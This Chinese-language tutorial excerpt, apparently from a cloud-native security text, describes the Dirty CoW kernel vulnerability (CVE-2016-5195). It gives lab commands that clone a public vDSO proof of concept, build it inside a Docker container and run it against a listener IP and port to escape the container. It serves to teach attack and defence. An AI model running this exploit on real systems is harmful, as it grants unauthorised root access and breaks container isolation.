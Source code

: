 近年来，Linux 系统曝出过无数内核漏洞，其中能够用来提权的也不少，脏牛依赖于内存页的写时复制机制，该机制英文名称为 Copy-on-Write，再结合内存页特性，将漏洞命名为 Dirty CoW，译为脏牛）大概是其中最有名气的漏洞之一。漏洞发现者甚至为其申请了专属域名（dirtycow.ninja），在笔者的印象中，上一个同样申请了域名的严重漏洞还是 2014 年的心脏滴血（CVE-2014-0160，heartbleed.com）。自这两个漏洞开始，越来越多的研究人员开始为他们发现的高危漏洞申请域名（尽管依然是极少数）。

关于脏牛漏洞的分析和利用文章早已遍布全网。这里我们使用来自 scumjr 的 [PoC](https://github.com/scumjr/dirtycow-vdso) 来完成容器逃逸。该利用的核心思路是向 vDSO 内写入 shellcode 并劫持正常函数的调用过程。

复现：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>./metarget cnv install cve-2016-5195<br>git clone https://github.com/gebl/dirtycow-docker-vdso.git<br>cd dirtycow-docker-vdso/<br>docker-compose run dirtycow /bin/bash<br>``` |

进入容器，编译 POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>cd /dirtycow-vdso/<br>make<br>./0xdeadbeef 192.168.172.136:1234<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

-   云原生安全——攻防实践与体系构建
